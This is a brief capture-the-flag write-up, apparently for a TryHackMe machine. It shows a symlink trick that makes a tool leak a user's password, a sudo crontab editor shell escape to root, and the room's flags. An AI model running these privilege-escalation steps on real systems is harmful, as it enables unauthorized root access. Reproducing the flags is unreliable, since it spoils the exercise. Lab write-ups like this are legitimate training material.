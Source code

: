 >> find two intersting files
>> 1] /var/backup/jeff.bak
>> 2] /opt/systools/systool

>> after running systool binary using ltarce find that when we give 2nd 
>> options it reads data from message.txt
>> so i delete the message.txt file and symlink to /var/backup/jeff.bak file

# ln -sf /var/backup/jeff.bak message.txt

>> now num the systool binary and choose 2 .and got a password of jeff.
>> on the jeff shell run sudo -l command and find that sudo permission is set
>> to /usr/bin/crontab

>> its easy,run
# sudo /usr/bin/crontab -e
# :!/bin/bash 

>> got root access:
# root.txt : THM{40fc54e5c0f5747dfdd35e0cc7db6ee2}
# user.txt : THM{e122d5588956ef9ba7d4d2b2fee00cac}
